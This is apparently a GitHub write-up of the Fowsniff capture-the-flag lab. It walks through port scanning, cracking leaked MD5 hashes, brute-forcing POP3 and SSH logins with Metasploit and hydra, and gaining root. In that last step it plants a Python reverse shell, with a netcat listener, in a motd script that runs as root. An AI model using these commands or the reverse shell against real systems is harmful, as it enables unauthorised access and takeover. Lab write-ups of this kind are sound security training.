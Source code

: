 # Fowsniff-Capture The Flag 🔱

Welcome to the world of ethical hacking, where curiosity meets challenge and every keystroke brings you closer to uncovering hidden vulnerabilities. In this Capture the Flag (CTF) adventure, nicknamed **"Fowsniff"**, I'll be stepping into the shoes of a cyber sleuth, navigating through layers of digital defenses to expose the secrets of a vulnerable machine. From port scanning and online sleuthing to cracking hashes and brute-forcing logins, this project is more than just a test of technical skills—it's a journey into the heart of cybersecurity. Join me as I unravel the complexities of **Fowsniff**, one flag at a time. 😁

## Information Gathering 🤓 ## 
The target IP address is provided when the machine is deployed. For this walkthrough, the target IP address is 10.10.110.111.

## Scanning 🩻 ##
**Results**:
- **Port 22/tcp** - SSH - (OpenSSH 7.2p2)
- **Port 80/tcp** - HTTP - (Apache httpd 2.4.18)
- **Port 110/tcp)** - POP3 - (Dovecot pop3d)
- **Port 143/tcp)** - IMAP - (Dovecot imapd)

  ![initial nmap scan](https://github.com/user-attachments/assets/14302e40-3f1e-4e4f-aa0a-88422f970a5b)

## Enumeration 🔬 ##
Access the web server running on port 80 by visiting **htpp://<target_IP>** in the browser. The website reveals that attackers have dumped employee usernames and hashed passwords on Pastebin.

![enum website ](https://github.com/user-attachments/assets/a5865fcc-4eea-41b2-9c8e-bc2e076cf74d)

- We then retrieve the list of usernames and hashed passwords and save the data to files on the local machine.

![Password Hashes](https://github.com/user-attachments/assets/146aeb2c-2134-4165-96c4-c5a7c91de601)

- Crack the MD5 hashes using hashes.com and save the results to hashcracked.txt.

![Hashes decrypted](https://github.com/user-attachments/assets/830dbd85-d7d7-4346-bac7-55c56c816d82)

- Create files for both **usernames** (username.txt) and the newly cracked **passwords** (password.txt.

## Gaining Access 🕸️ ##

- Use Metasploit module for brute forcing the POP3 service: 

  - msfconsole
  - use auxiliary/scanner/pop3/pop3_login
  - set RHOSTS 10.10.110.111
  - set USER_FILE username.txt
  - set PASS_FILE password.txt
  - exploit

![set options in metasploit](https://github.com/user-attachments/assets/ecf9f1c0-aacf-4024-a540-1dfd6e234e04)

- Running the Metasploit module, we find a matching username and password.  We are now able to connect to the POP3 mail server 📨 !!!

![used hydra to dictionary attack](https://github.com/user-attachments/assets/8fb317ff-0597-4a30-9291-617e8a9fd51b)

- Connect to the POP3 service using the newly found credentials:
  - nc <target_IP>
    - *user* <username>
    *password* <password>

- We come across two emails we can view:

![list messages](https://github.com/user-attachments/assets/2dba789f-f52c-4b97-9a35-3b9c7c2544dc)

- Retrieve the emails:
  LIST; RETR 1; RETR 2

![SSH password email sent](https://github.com/user-attachments/assets/41885922-031d-4581-bbf6-84548941d8b4)

- In the second email we accessed, we can view a temp password for SSH and a possible username.
- Next, use hydra to brute force the SSH login:
  - hydra -L users.txt -p "<password>" ssh://<target_IP>
  - or, the first email can shed light on the username.
- Next, we attempt to connect via SSH

![SSH connection](https://github.com/user-attachments/assets/3d6c8518-a748-4351-a11d-fab27a726038)


## Privilege Escalation 🪃

- Once logged in, enumerate the system:
  - Once the SSH connection is established, we must discover what group(s) the user "baksteen" belongs
  - The user belongs to a group called "users" with permission to run '**/opt/cube/cube/sh**'
    - Running this script looks exactly like the banner displayed when logging in via SSH
   
![Screenshot 2024-09-01 at 6 47 56 PM](https://github.com/user-attachments/assets/2661a901-2a0f-4dc7-9d5f-45657e7f54b0)

- Look in the '**/etc/update-motd.d/00-header**' folder and the '**00-header**' file shows that the '**/opt/cube/cube.sh**' file is run when a user connects to the 
  machine using SSH (and will run as root user).
  - Edit **cube.sh** by inserting a Python reverse shell:
    - '''**python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<local-IP>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**'''
  - Set up a Netcat listener on local machine: **nc -nlvp 1234**
  - In a seperate terminal, SSH back into the machine: **ssh <username>@<target_IP>**
  - The reverse shell should connect to your listener.  Access the root directory and read the flag:
    - cd /root

    - cat flag.txt
   
![flag captured](https://github.com/user-attachments/assets/3ccb6ba7-0d07-4856-95c2-c0247692e722)









